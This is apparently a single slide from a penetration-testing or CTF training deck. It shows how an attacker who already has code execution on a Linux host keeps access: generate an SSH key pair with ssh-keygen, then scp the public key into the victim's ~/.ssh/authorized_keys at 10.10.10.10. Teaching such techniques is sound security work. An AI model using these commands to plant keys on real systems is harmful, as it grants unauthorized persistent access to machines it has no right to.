

# Authentication
Code execution on a Linux machine?
Generate a quick public key on your attacker machine
# ssh-keygen
Transfer to the victim machine, drop it in ~/.ssh/authorized_keys
# scp ~/home/.ssh/id_rsa.pub victim@10.10.10.10:/home/victim/.ssh/authorized_keys